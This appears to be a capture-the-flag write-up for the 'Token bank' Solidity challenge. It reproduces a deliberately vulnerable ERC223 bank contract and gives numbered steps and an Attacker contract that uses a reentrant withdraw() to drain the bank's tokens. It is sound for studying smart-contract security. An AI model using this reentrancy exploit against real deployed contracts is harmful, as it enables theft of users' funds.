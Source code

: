 # Token bank

```
pragma solidity ^0.4.21;

interface ITokenReceiver {
  function tokenFallback(address from, uint256 value, bytes data) external;
}

contract SimpleERC223Token {
  // Track how many tokens are owned by each address.
  mapping (address => uint256) public balanceOf;

  string public name = "Simple ERC223 Token";
  string public symbol = "SET";
  uint8 public decimals = 18;

  uint256 public totalSupply = 1000000 * (uint256(10) ** decimals);

  event Transfer(address indexed from, address indexed to, uint256 value);

  function SimpleERC223Token() public {
    balanceOf[msg.sender] = totalSupply;
    emit Transfer(address(0), msg.sender, totalSupply);
  }

  function isContract(address _addr) private view returns (bool is_contract) {
    uint length;
    assembly {
      //retrieve the size of the code on target address, this needs assembly
      length := extcodesize(_addr)
    }
    return length > 0;
  }

  function transfer(address to, uint256 value) public returns (bool success) {
    bytes memory empty;
    return transfer(to, value, empty);
  }

  function transfer(address to, uint256 value, bytes data) public returns (bool) {
    require(balanceOf[msg.sender] >= value);

    balanceOf[msg.sender] -= value;
    balanceOf[to] += value;
    emit Transfer(msg.sender, to, value);

    if (isContract(to)) {
      ITokenReceiver(to).tokenFallback(msg.sender, value, data);
    }
    return true;
  }

  event Approval(address indexed owner, address indexed spender, uint256 value);

  mapping(address => mapping(address => uint256)) public allowance;

  function approve(address spender, uint256 value)
    public
    returns (bool success)
  {
    allowance[msg.sender][spender] = value;
    emit Approval(msg.sender, spender, value);
    return true;
  }

  function transferFrom(address from, address to, uint256 value)
    public
    returns (bool success)
  {
    require(value <= balanceOf[from]);
    require(value <= allowance[from][msg.sender]);

    balanceOf[from] -= value;
    balanceOf[to] += value;
    allowance[from][msg.sender] -= value;
    emit Transfer(from, to, value);
    return true;
  }
}

contract TokenBankChallenge {
  SimpleERC223Token public token;
  mapping(address => uint256) public balanceOf;

  function TokenBankChallenge(address player) public {
    token = new SimpleERC223Token();

    // Divide up the 1,000,000 tokens, which are all initially assigned to
    // the token contract's creator (this contract).
    balanceOf[msg.sender] = 500000 * 10**18;  // half for me
    balanceOf[player] = 500000 * 10**18;      // half for you
  }

  function isComplete() public view returns (bool) {
    return token.balanceOf(this) == 0;
  }

  function tokenFallback(address from, uint256 value, bytes) public {
    require(msg.sender == address(token));
    require(balanceOf[from] + value >= balanceOf[from]);

    balanceOf[from] += value;
  }

  function withdraw(uint256 amount) public {
    require(balanceOf[msg.sender] >= amount);

    require(token.transfer(msg.sender, amount));
    balanceOf[msg.sender] -= amount;
  }
}
```

## Goal

Withrdaw all of the SET tokens that TokenBankChallenge contract has in possession

## Exploit

In order to finish this CTF we will have to use another smart contract. We can name this contract Attacker.

There are two issues with the TokenBankChallenge, first it is reentrant (withdraw() function) and second there is flawer business login in handling the tokens that the bank possesses.

To exploit the contract we need to:

1. create Attacker contract, this contract will be inheriting ITokenReceiver interface and must have tokenFallback() function implemented, create instances from the SimpleERC223Token contract and TokenBankChallenge contract inside the Attacker contract. This contract will
  <ul>
  <li>have external transfer() function, we will call this function to transfer SET tokens from the attacker to the TokenBankChallenge contract, inside it we will make a call to the SimpleERC223Token transfer() function</li>
  <li>tokenFallback() function implemented, this is the function were we will cause the reentrancy to happen</li>
  <li>withdraw() external function, this is the function that will initiate the reentrant call</li>
  <ul>
2. withdraw all of the tokens that our account (player) has in possesion, calling the withdraw function from the TokenBankChallenge contract
3. transfer all of the tokens from the our account (player) to the Attacker contract, using the transfer() function from SimpleERC223Token
4. call the transfer() function from the Attacker contract and transfer all of the SET tokens from the Attacker to the TokenBankChallenge contract, amount should be 500000000000000000000000
5. call the withdraw() function from Attacker contract

## Attacker contract code

```
contract Attacker is ITokenReceiver {
  SimpleERC223Token private token;
  TokenBankChallenge private bank;
  uint256 public count;

  function Hack(address _token, address _bank) public {
    token = SimpleERC223Token(_token);
    bank = TokenBankChallenge(_bank);
  }

  function transfer(address to, uint256 value) external {
    token.transfer(to, value, "");
  }

  function tokenFallback(address from, uint256 value, bytes data) external {
    count++;
    if(count == 2) {
      bank.withdraw(500000000000000000000000);
    }
  }

  function withdraw(uint256 amount) external {
    bank.withdraw(amount);
  }
}
```